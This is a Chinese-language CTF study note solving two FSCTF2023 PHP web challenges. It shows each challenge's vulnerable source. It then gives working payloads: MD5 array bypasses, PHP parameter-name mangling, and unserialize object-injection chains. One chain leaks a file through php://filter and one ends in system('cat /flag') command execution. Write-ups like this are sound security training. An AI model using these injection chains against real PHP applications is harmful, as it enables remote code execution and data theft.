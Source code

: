 ## 本周重点
### 1.FSCTF2023 ez_php1
```
 <?php
highlight_file(__FILE__);
error_reporting(0);
include "globals.php";
$a = $_GET['b'];
$b = $_GET['a'];
if($a!=$b&&md5($a)==md5($b))
{
    echo "!!!";
    $c = $_POST['FL_AG'];
    if(isset($c))
    {
        if (preg_match('/^.*(flag).*$/', $ja)) {
            echo 'You are bad guy!!!';
        }
            else {
                echo "Congratulation!!";
                echo $hint1;
            }
    }
    else {
        echo "Please input my love FL_AG";
    }
} else{
    die("game over!");
}
?>
game over!
```
get传参a和b让a，b值不同但md5相同，直接数组绕过就行
post传参FL_AG=flag但是php会把_转换成.但是可以传参FL[AG，php传参会把[转换成_
payload:
![e057bd581307ee5a82130bf0ae721707.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1699528104307-03bd3cb8-1f13-4d09-999b-3886bd171b56.png#averageHue=%23fcfcfb&clientId=u72270d6e-ec62-4&from=paste&height=302&id=ubcc82822&originHeight=377&originWidth=771&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=18131&status=done&style=none&taskId=u472919ec-d8fa-434e-9f41-4a5f2cb656d&title=&width=616.8)
得到下一关
` !!!Congratulation!!L0vey0U.php  `
```
 <?php
highlight_file(__FILE__);
error_reporting(0);
include "globals.php";
$FAKE_KEY = "Do you love CTF?";
$KEY = "YES I love";
$str = $_GET['str'];
echo $flag;
if (unserialize($str) === "$KEY")
{
    echo "$hint2";
}
?>
flag{This_is_fake_flag}
```
将$key的值序列化传入即可
```
<?php
$KEY = "YES I love"; 
echo(serialize($KEY));
?>s:10:"YES I love";
```
![868bd15f34e5cf5940a9c4e436e1bf36.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1699528372209-b2541f92-19c7-4060-b2ab-b08e3d4eaa19.png#averageHue=%23f9f8f7&clientId=u72270d6e-ec62-4&from=paste&height=130&id=u0230c042&originHeight=163&originWidth=771&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=14914&status=done&style=none&taskId=u8068fef8-a61c-46ec-8f07-f0a95e1c33a&title=&width=616.8)
进入下一关
` flag{This_is_fake_flag}P0int.php  `
```
<?php
highlight_file(__FILE__);
error_reporting(0);
class Clazz
{
    public $a;
    public $b;

    public function __wakeup()
    {
        $this->a = file_get_contents("php://filter/read=convert.base64-encode/resource=g0t_f1ag.php");
    }
    public function __destruct()
    {
        echo $this->b;
    }
}
@unserialize($_POST['data']);

?> 
```
反序列化会启动_wakeup方法我们给a传入new Clazz相当于销毁原对象构造新对象来触发_destruct方法，然后用指针将a的伪协议值赋给b
```
<?php
class Clazz
{
    public $a;
    public $b;
}
$A=new Clazz;
$A->a=new Clazz;
$A->b= &$A->a;
echo serialize($A);
?>O:5:"Clazz":2:{s:1:"a";O:5:"Clazz":2:{s:1:"a";N;s:1:"b";N;}s:1:"b";R:2;}
```
得到flag
` PD8NCiRGTEFHPSAiRkxBR3t5MHVfYXJlX2wwdmUhISEhfSINCj8+DQo=  `
```
<?
$FLAG= "FLAG{y0u_are_l0ve!!!!}"
?>
```
### 2.FSCTF2023 ez_php2
```
 <?php
highlight_file(__file__);
Class Rd{
    public $ending;
    public $cl;

    public $poc;
    public function __destruct()
    {
        echo "All matters have concluded";
        die($this->ending);
    }
    public function __call($name, $arg)
    {
        foreach ($arg as $key =>$value)
        {

            if($arg[0]['POC']=="1111")
            {
                echo "1";
                $this->cl->var1 = "system";
            }
        }
    }
}


class Poc{
    public $payload;

    public $fun;

    public function __set($name, $value)
    {
        $this->payload = $name;
        $this->fun = $value;
    }

    function getflag($paylaod)
    {
        echo "Have you genuinely accomplished what you set out to do?";
        file_get_contents($paylaod);
    }
}

class Er{
    public $symbol;
    public $Flag;

    public function __construct()
    {
        $this->symbol = True;
    }

    public function __set($name, $value)
    {
        $value($this->Flag);
    }


}

class Ha{
    public $start;
    public $start1;
    public $start2;
    public function __construct()
    {
        echo $this->start1."__construct"."</br>";
    }

    public function __destruct()
    {
        if($this->start2==="11111") {
            $this->start1->Love($this->start);
            echo "You are Good!";
        }
    }
}


if(isset($_GET['Ha_rde_r']))
{
    unserialize($_GET['Ha_rde_r']);
} else{
    die("You are Silly goose!");
}
?> You are Silly goose!
```
首先根据变量start可知Ha类为链子开始，然后会触发_construct和_destruct方法，在后者里有个判断语句，需要给start2赋值"11111"然后触发了Love()函数，触发不存在的函数会调用_call方法，而只有Rd里有_call方法，所以咱第二步通过start1转到Rd中，在call方法中有个判断语句，让$arg[0]['POC']=="1111"成立，根据网上wp说这里需要通过$payload依靠变量覆盖[''=>'']来实现（贴个变量覆盖的文章：[https://blog.csdn.net/weixin_39831567/article/details/115982842](https://blog.csdn.net/weixin_39831567/article/details/115982842)）然后全部完成会触发$this->cl->var1 = "system";给未定义的类赋值触发_set魔术方法，_set在Er类里最后调用Er类，同时这个system会到set里的$value里，所以我们给Flag赋值system执行语句就行，构造payload:
```
<?php
Class Rd{
    public $ending;
    public $cl;
    public $poc;
}
class Poc{
    public $payload;
    public $fun;
}
class Er{
    public $symbol;
    public $Flag='cat /flag';
}
class Ha{
    public $start;
    public $start1;
    public $start2="11111";
}
$a=new Ha();
$a->start1=new Rd();
$poc=new Poc();
$poc->payload=['POC'=>'1111'];
$a->start=$poc->payload;
$a->start1->cl=new Er();
echo(serialize($a));
?>O:2:"Ha":3:{s:5:"start";a:1:{s:3:"POC";s:4:"1111";}s:6:"start1";O:2:"Rd":3:{s:6:"ending";N;s:2:"cl";O:2:"Er":2:{s:6:"symbol";N;s:4:"Flag";s:9:"cat /flag";}s:3:"poc";N;}s:6:"start2";s:5:"11111";}
```
先构造ls /看到flag
![78472c137fcacb12f25073e6577a668b.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1699536682743-900ece12-d3c6-4354-9fe3-f17bc77a1c25.png#averageHue=%23fcfbfb&clientId=u72270d6e-ec62-4&from=paste&height=695&id=u9813521c&originHeight=869&originWidth=1917&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=126250&status=done&style=none&taskId=ue64068b3-6d87-4cee-9d6f-9e175351fe0&title=&width=1533.6)
再构造cat /flag传参得到flag
![302a73c4c3cb6c84d560dae770f041be.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1699534117037-91cb1201-8ea3-4448-b1e1-ad024992d250.png#averageHue=%23fdfcfc&clientId=u72270d6e-ec62-4&from=paste&height=699&id=u7e39b862&originHeight=874&originWidth=1918&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=119327&status=done&style=none&taskId=u598c6106-6dcb-46b2-b945-c24269de28b&title=&width=1534.4)
## 下周计划

- 

## 总结


